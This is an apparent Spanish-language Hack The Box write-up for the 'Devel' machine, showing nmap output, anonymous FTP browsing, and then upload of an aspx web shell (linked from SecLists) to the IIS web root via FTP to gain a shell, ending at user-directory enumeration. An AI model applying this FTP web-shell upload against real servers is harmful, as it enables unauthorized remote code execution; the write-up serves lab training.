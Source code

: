 # Devel ![Avatar](https://www.hackthebox.eu/storage/avatars/0fb6455a29eb4f2682f04a780ce26cb1_thumb.png)     

### Initial Scan

```nmap
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
```
### Enumeration

####FTP

Empecemos enumerando el FTP
```bash
pj@crow-foot:~$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:pj): Anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls -la
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> cd aspnet_client
250 CWD command successful.
ftp> ls -la
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          system_web
226 Transfer complete.
ftp> cd system_web
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          2_0_50727
226 Transfer complete.
ftp> cd 2_0_50727
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
```
Vemos que lo que tenemos es el directorio de la pagina que hay en el puerto 80, puede que podamos subir una shell

### Exploit

Usaremos una shell aspx por que es un cliente aspnet
```
https://github.com/danielmiessler/SecLists/blob/master/Web-Shells/laudanum-0.8/aspx/shell.aspx
```
La descargamos y la subimos al FTP
```ftp
put shell.aspx
```
Y accedmos a http://10.10.10.5/shell.aspx

### Privesc

Ya tenemos shell en la máquina

#### Enumeración de Usuarios

```
 Directory of C:\Users

18/03/2017  02:16 §£    <DIR>          .
18/03/2017  02:16 §£    <DIR>          ..
18/03/2017  02:16 §£    <DIR>          Administrator
17/03/2017  05:17 ££    <DIR>          babis
18/03/2017  02:06 §£    <DIR>          Classic .NET AppPool
14/07/2009  10:20 §£    <DIR>          Public
```
No tenemos acceso a ninguno pero sabemos que los usuarios con flag son babis y Administrator
